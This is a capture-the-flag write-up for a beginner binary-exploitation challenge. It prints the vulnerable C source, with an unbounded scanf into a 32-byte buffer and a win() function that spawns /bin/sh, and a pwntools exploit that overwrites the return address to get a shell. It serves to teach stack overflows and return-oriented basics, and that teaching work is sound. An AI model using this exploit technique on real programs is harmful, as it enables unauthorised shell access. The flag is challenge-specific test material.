 ## Description

Ever heard what ROP is?

## Writeup

We were given 2 file, chall.c the source code, chall the binary executable and one remote connection to send out payload.

**Note:  This challenge requires a verry little previous knowledge on binary explotation**

Refer :- http://wiki.bi0s.in/pwning/roadmap/ to get familier with the basics.

Checking the source, chall.c:

```C
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

void win(){
    puts("You sure did win");
    system("/bin/sh");
}

int main(){
    char buf[0x20];

    puts("Do whatever you want --__--");
    scanf("%s",buf);

    return 0;

}
```

Before procesing with the exploitation, let's check the Binary security features.

![Image](Img/one.png)

We can see that, CANARY is disabled, so... we don't have to worry to buffer overflow check and PIE is disabled, which means the base address of the binary is always static, So really simple exploitation. We can see, there us a win() function and a clear buffer overflow with ``scanf("%s",buf)``, So All we have to do is overflow the buffer, overflow RSP with the address of win() and get the shell.

![Image](Img/two.png)

Looking at the dissembly of main() function, we can see that, Our buf is located at the position ``rbp-0x20``, We need 8 more bytes to fill up the rbp, So... a total of 0x28 bytes get to the rsp.
Then, we just overwrite `rsp` wit the address of "win()" and get the shell, below is the exploit script written to automate the process using pwntools.

```python
from pwn import *

p = process('./chall')
#p = remote('20.127.153.159', 6973)

e = ELF('./chall')
r = ROP('./chall')

win = e.symbols['win']

payload = b"A"*0x28 + p64(r.ret.address) + p64(win)

p.recvuntil("\n")
p.sendline(payload)

p.interactive()
```

**Note: address of ``ret`` instruction is added before ``win()`` because the stack has to be 16-byte aligned**

Running the exploit, will land us a shell:

![Image](Img/three.png)

## Flag

**HTB{v32y_51mp13_r3turn_101}**

## Author
Sai Shashank